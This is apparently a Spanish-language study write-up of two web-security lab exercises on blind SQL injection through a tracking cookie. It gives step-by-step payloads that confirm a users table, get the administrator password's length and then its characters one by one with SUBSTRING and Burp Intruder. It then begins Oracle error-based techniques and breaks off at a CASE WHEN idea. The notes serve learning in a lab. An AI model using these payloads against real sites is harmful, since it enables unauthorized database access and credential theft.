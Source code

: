 
# Blind SQL injection with conditional responses

Blind SQL injection arises when an application is vulnerable to SQL injection, but its HTTP responses do not contain the 
results of the relevant SQL query or the details of any database errors.
With blind SQL injection vulnerabilities, many techniques such as UNION attacks,
are not effective because they rely on being able to see the results of the injected query within the application's responses.
It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

## Paso 1

Identificar que en la cookie existe una inyeccion SQL.

En este ejemplo tenemos una cookie "TrackId" primero se prueba si es vulerable 

```
Cookie: TrackingId=HjnfhA06d5ESS3fR'and 1=1--; session=BTTP2qL1z1a4sJNyePUM0DOuWo4UsYyu
Cookie: TrackingId=HjnfhA06d5ESS3fR'and 1=2--; session=BTTP2qL1z1a4sJNyePUM0DOuWo4UsYyu
```

Si regresa el mensaje de "Welcome back" eso quiere decir que esta interpretando nuestro codigo. Probar con 1=2 para que de false porque una se evelua con true
y la otra con false.

## Paso 2

(falta saber como se supo que tenidamos estas tablas y usuarios)

El siguiente paso es probar si la tabla users existe eso se hace con una consulta la cual pone una x(o cualquier caracter) 
en cada fila por cada registro que exista dentro de la base:

```
Cookie: TrackingId=UHO0YeDpDdzu3u9A' and (select 'x' from users limit 1)='x'-- // recuerda el ctrl + U

```

Si nos da el mensaje de "Welcome back" quiere decir que es true y que esta tabla users existe. 
***Select 'x'...*** es una sentencia que pone una x por cada fila que tenga la tabla en este caso se limita a 1
y como se iguala a x si exite seria x=x lo que regresa true 

## Paso 3 

Ir sacando datos evaluando con true or false


```
'and (select 'a' from users where username='administrator')='a'--

'and (select username from users where username='administrator')='administrator'--


```

Primero se checho si existe el usuario "administrator (que si existe porque devolvio true por tanto el mensaje de welcome bacK)
Se hizo con diferentes metodos todos probados y funcionaron por eso hay 2 sentencias de unos
a


## Paso 4

Sacar el password. Primero se saca el len del password para posteriormente irlo sacando
Se utilizo el ***Intruder*** dar clear y poner add en la payload poner snipper 
y revisar cuando las peticiones son diferentes.


```
'and (select username from users where username='administrator' and length(password)>19)='a'--

'and (select 'a' from users where username='administrator' and length(password)>19)='a'--

```

Dio 20 aunque la consulta de 

```

'and (select 'a' from users where username='administrator' and length(password)>20)='a'--
 
```


Para el segundo query caracter ya da false porque el numero es 20 no mayor a 20 


## Paso 5

***Substring sintaxis***

```
SUBSTRING(EXPRESION(COLUMNA),POSICION(EMPIEZA EN 1),LENGTH).

```

Se utiliza substring para sacar los datos las posiciones empienzan index 1.


```
'and (select substring(password,1,1) from users where username='administrator')='a'--
```

Se puede usar el ataque cluster Bomb pero solo en Burp Pro 
iteraria sobre los cambpos (select substring(password,*,1) y where username='administrator')='*'


```
'and (select substr(password,2,1) from users where username='administrator')='a'--

'and (select substr(password,2,1) from users where username='administrator')='$a$'--
```


Asi uno por uno iria iterando para sacar el password.

# Blind SQL injection with conditional errors

En este caso la base de datos no regresa el mensaje de welcome back de entrada la inyeccion sql se encuentra en la cookie osea que el camino mas facil es
abrir burp e ir inyectando desde ahi sentencias sql.


## Paso 1

Intentamos ver que error manda como ejecuta la consulta etc

```
TrackingId=ilj71quJBUaTO5Yi'
```

Vemos que ya da error entonces intentamos cerrar la y no nos da error lo que nos dice que esta interpretandola bien.

```
TrackingId=ilj71quJBUaTO5Yi''
```
Nos damos cuenta que para que sirva tenemos que cerrar esa consulta lo que nos lleva a un tema de concatenar datos

```
'||(select '') ||'
```
Esta es  una consulta totalmente valida pero nos devuelve error ¿Porque? Quiza nos enfrentamos a una base de datos
tipo Oracle que tienes que especificar de donde quieres sacar datos probamos...

```
'||(select '' from dual) ||'
' || (select '' from users where rownum=1' ||'

```
# ¿Que ES ROWNUM y ROW_NUMBER() vs ROWNUM

>https://tipsfororacle.blogspot.com/2016/09/difference-between-rownum-and-rownumber.html?m=1

## ROWNUM

Esta intruccion asigna un numero cuando se regresa el resultado en una consulta de 1 hasta n al resultado como un tipo ID pero no se muestra

## ROW_NUMBER()

Esta intruccion de igual manera pone un numero pero la diferencia es que pone un numero en base a un orden ejemplo si tenemos 10 personas 5 primeros hombres y 5 mujeres pondria del 1 al 5 en los hombres y del 1 al 5 en mujeres porque ordeno por genero.

***Por lo tanto***

ROWNUMBER permite regresar de una consulta solo un solo registro en este caso es importante porque al ser una concatencion ' str || (str2) || str3' no rompe 
la consulta.

# Logica

Nos regresa que todo esta bien lo renderiza si ponemos dual1 no lo haria daria ***error***
Entonces aqui tenemos un punto ***como aprovechar** Bueno si hacemos una consulta por ejemplo a la tabla users
deberia de renderizar todo pero como sacamos los datos¿?

Para sacar datos usamos el "CASE WHEN CONDICION1 THEN GENERAERROR ELSE TODOOK" 




